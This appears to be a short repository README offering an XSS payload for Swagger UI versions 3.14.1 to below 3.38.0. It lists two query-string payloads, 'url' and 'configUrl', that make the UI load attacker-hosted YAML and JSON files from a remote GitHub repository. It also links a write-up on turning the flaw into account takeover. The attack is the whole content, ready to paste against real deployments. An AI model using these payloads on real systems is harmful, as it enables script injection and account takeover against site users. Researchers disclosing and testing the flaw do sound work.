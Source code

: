 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/ClearGate-Int/swagger-UI_xss/main/xss-fetch.yaml`
### `configUrl`
`?configUrl=https://raw.githubusercontent.com/ClearGate-Int/swagger-UI_xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
